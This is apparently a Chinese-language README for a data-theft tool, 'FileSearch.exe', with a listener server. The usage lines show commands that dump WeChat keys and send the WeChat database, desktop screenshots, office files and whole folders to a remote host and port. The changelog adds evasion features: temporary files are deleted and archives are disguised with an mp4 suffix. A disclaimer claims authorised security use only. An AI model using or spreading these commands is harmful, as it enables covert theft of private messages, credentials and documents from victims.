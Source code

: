 ### Server


```plain
Server.exe port # 默认8888端口
```

### Command

```plain
[+] FileSearch.exe dumpkey # 获取微信密钥
[+] FileSearch.exe send 127.0.0.1 8888 # 从默认路径回传微信数据库
[+] FileSearch.exe send 127.0.0.1 8888 vxpath # 指定微信数据库路径
[+] FileSearch.exe photo 127.0.0.1 8888 # 桌面截屏回传
[+] FileSearch.exe search d:\ .docx # 查找指定类型文件
[+] FileSearch.exe upload path 127.0.0.1 8888 # 上传文件
[+] FileSearch.exe uploads path 127.0.0.1 8888 # 上传文件夹
[+] FileSearch.exe all 127.0.0.1 8888  # 全盘获取指定类型文件
[+] FileSearch.exe user 127.0.0.1 8888 # c:\users目录下查找类型文件
```

### 更新说明

1、all参数排除了c盘符查找指定类型文件，避免大量缓存文件造成卡顿，添加user参数在c:\users目录下查找

可自行修改需要上传的文件类型（747行），默认为：

```plain
const char* filetype[] = { ".doc",".xls", ".pdf" ,".docx",".xlsx",".txt",".bat",".ppt",".pptx" };
```

2、运行成功后会自动删除生成出来的文件夹以及压缩包，压缩包文件随机修改成了mp4后缀

3、优化了查找文件匹配方式，支持模糊匹配或精确匹配

4、新增uploads参数遍历指定文件夹压缩上传功能

5、新增photo参数桌面截屏回传功能

### 功能展示：

![img](https://cdn.nlark.com/yuque/0/2022/png/32539762/1668769423893-416c9225-1319-4133-a468-3cb6cee900d4.png)

![img](https://cdn.nlark.com/yuque/0/2022/png/32539762/1668770076653-85c5e09c-e9a8-436f-8ce5-8987cc079882.png)

![img](https://cdn.nlark.com/yuque/0/2022/png/32539762/1668772513228-738d3cd4-5aef-49e5-9d31-6df8d9c6e8f9.png)

## 已知问题：

测试在1M带宽的服务器上传输大文件（G级）可能会损坏，感觉这跟双方网络波动有一定关系，后续会改成自动分卷压缩来上传，目前暂用的解决办法：

利用本地Rar进行切割再进行上传

```plain
C:\Program Files\WinRAR\Rar.exe a -ep1 -m0 -v2mC:\Users\admin\Downloads\1.rar C:\Users\admin\Downloads\xxx.jar
```

注释：-v2m 即分卷的大小为2m 

2、使用WinRAR内置修复功能或者使用[DiskInternals ZIP](https://www.diskinternals.com/zip-repair/)进行修复损坏文件

> 后续还会更新~

如果发现缺陷请提交 issue，非常感谢！

#### 本人失业多年，已不参与大小HW活动的攻击方了，若溯源到id与本人无关

#### 免责声明

 本工具仅能在取得足够合法授权的企业安全建设中使用，在使用本工具过程中，您应确保自己所有行为符合当地的法律法规。 如您在使用本工具的过程中存在任何非法行为，您将自行承担所有后果，本工具所有开发者和所有贡献者不承担任何法律及连带责任。 除非您已充分阅读、完全理解并接受本协议所有条款，否则，请您不要安装并使用本工具。 您的使用行为或者您以其他任何明示或者默示方式表示接受本协议的，即视为您已阅读并同意本协议的约束。

